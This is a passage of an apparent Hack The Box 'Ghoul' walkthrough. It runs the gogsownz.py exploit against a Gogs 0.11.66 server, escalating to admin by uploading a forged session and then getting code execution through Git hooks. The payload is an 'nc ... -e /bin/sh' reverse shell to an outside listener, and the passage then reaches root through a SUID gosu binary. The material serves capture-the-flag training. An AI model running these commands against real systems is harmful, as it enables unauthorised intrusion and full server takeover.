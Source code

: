 ```bash
root@splinter:~/labs/htb/ghoul# python3 gogsownz.py -v  http://127.0.0.1:3000/ -C 'AogiriTest':'test@aogiri123' -n i_like_gogits --rce 'nc 10.10.14.20 443 -e /bin/sh' --cleanup
[i] Starting Gogsownz on: http://127.0.0.1:3000
[+] Loading Gogs homepage
[i] Gogs Version installed: © 2018 Gogs Version: 0.11.66.0916 
[i] The Server is redirecting on the login page. Probably REQUIRE_SIGNIN_VIEW is enabled so you will need an account.
[+] Performing login
[+] Logged in sucessfully as AogiriTest
[+] Got UserID 2
[+] Repository created sucessfully
[i] Exploiting authenticated PrivEsc...
[+] Uploading admin session as repository file
[+] Uploaded successfully.
[+] Committing the Admin session
[+] Committed sucessfully
[+] Removing Repo evidences
[+] Repo removed sucessfully
[i] Signed in as kaneki, is admin True
[i] Current session cookie: '638cb471cd001337'
[+] Got UserID 1
[+] Repository created sucessfully
[+] Setting Git hooks
[+] Git hooks set sucessfully
[+] Fetching last commit...
[+] Got last commit
[+] Triggering the RCE with a new commit
[+] Committed sucessfully
[i] Performed RCE successfully
[i] Waiting 10 seconds before cleaning up...
[+] Removing Repo evidences
[+] Repo removed sucessfully
[i] Done!
```
```bash
root@splinter:~/labs/htb/ghoul# nc -lvnp 443
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.101.
Ncat: Connection from 10.10.10.101:42515.
/bin/sh: can't access tty; job control turned off
/data/git/gogs-repositories/kaneki/gogstest.git $ id
uid=1000(git) gid=1000(git) groups=1000(git)
```

If we look around, the only thing that sticks out is this SUID file gosu. I guess it just runs commands as root? Our shell is now root then.

```bash
3713ea5e4353:~$ gosu 
Usage: gosu user-spec command [args]
   ie: gosu tianon bash
       gosu nobody:root bash -c 'whoami && id'
       gosu 1000:1 id

gosu version: 1.10 (go1.7.1 on linux/amd64; gc)
     license: GPL-3 (full text at https://github.com/tianon/gosu)

3713ea5e4353:~$ gosu root bash
3713ea5e4353:/data/git# whoami
root
```
In roots home we see this 7zip file and a session.sh script which is running every 10 minutes as a cron job.